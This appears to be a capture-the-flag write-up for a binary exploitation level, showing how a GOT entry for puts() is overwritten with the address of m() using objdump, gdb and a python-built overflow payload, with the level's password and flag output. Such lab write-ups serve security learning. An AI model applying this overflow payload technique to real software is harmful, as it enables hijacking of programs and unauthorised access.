 # Level 7
*pass: f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d*

```
$ scp -P 4242 level7@192.168.56.108:level7 binary/
```

## GOT overwrite
objective : excute m() instead of puts()

```
$ objdump -R ./level7 

./level7:     file format elf32-i386
...
08049928 R_386_JUMP_SLOT   puts
...
$ gdb level7
(gdb) info funct m
...
0x080484f4  m
...
```

`m()` address : 0x080484f4\
`puts()` address : 0x08049928


offset = 3 * 4 = 12\
8 + 12 = 20

```
$ ./level7  $(python -c 'print "a" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1651857543
```
